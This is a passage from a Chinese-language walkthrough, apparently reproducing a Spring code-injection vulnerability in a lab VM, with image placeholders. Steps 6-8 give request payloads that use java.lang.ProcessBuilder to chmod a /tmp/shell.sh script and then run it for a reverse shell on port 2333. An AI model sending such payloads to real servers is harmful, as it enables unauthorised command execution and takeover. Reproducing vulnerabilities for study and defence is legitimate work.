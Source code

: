 6.至此已经复现了漏洞，可是我们既然想代码执行，那我们就可以进行反弹shell操作，继续执行命令，添加payload：`&_(new+java.lang.ProcessBuilder("/bin/chmod","777","/tmp/shell.sh")).start()=feifei`对shell.sh修改权限

<center>![Spring](../images/yaof_images/3.png)</center>

7.查看虚拟机中的/tmp目录下的shell.sh有没有变成可读可写可执行权限，可以看到shell.sh权限成功变成777

<center>![Spring](../images/yaof_images/4.png)</center>

8.执行shell.sh文件同时监听2333端口，执行payload:`&_(new+java.lang.ProcessBuilder("/bin/bash","/tmp/shell.sh")).start()=feifei`

